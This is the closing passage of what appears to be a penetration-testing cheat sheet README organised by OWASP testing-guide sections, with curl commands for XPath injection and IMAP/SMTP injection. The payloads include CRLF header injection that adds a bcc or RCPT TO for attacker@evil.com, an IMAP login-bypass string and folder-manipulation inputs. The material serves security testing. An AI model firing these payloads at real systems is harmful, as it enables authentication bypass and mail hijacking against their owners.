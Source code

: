 ```bash
done

# Test for XPath injection with different payloads
for payload in "' or '1'='1" "' or ''='" "' or 1=1]%00" "' and count(/*)=1 and '1'='1"; do
  curl -s "https://example.com/xpath?query=$payload"
done
```

## WSTG-INPV-10: Testing for IMAP SMTP Injection

**Objective**: Identify IMAP/SMTP injection points with special characters (i.e.: \, ', ") and understand the data flow and deployment structure of the system.

### Commands

```bash
# Test for basic IMAP/SMTP injection
curl -s -X POST "https://example.com/mail" -d "to=victim@example.com%0Abcc:attacker@evil.com"
curl -s -X POST "https://example.com/mail" -d "to=victim@example.com%0A%0AHello, this is injected content"

# Test for IMAP authentication bypass
curl -s -X POST "https://example.com/imap" -d "username=user@example.com\" OR 1=1--&password=anything"

# Test for SMTP command injection
curl -s -X POST "https://example.com/mail" -d "to=victim@example.com%0ARCPT TO:attacker@evil.com"
curl -s -X POST "https://example.com/mail" -d "to=victim@example.com%0ADATA%0AHello, this is injected content%0A."

# Test for IMAP/SMTP injection in different parameters
for param in "to" "from" "subject" "body" "recipient"; do
  curl -s -X POST "https://example.com/mail" -d "$param=test@example.com%0A%0AHello, this is injected content"
done

# Test for IMAP folder manipulation
curl -s -X POST "https://example.com/imap" -d "folder=INBOX\" create \"Evil"
curl -s -X POST "https://example.com/imap" -d "folder=INBOX\" rename \"Evil"
```

## Additional Resources

- [OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [HackTricks](https://book.hacktricks.xyz/)
- [PortSwigger Web Security Academy](https://portswigger.net/web-security)
- [SANS Penetration Testing Resources](https://www.sans.org/blog/pen-test-poster-white-board/)

## Contributing

Feel free to submit pull requests with additional commands, techniques, or improvements to the existing content.

## License

This project is licensed under the MIT License - see the LICENSE file for details.
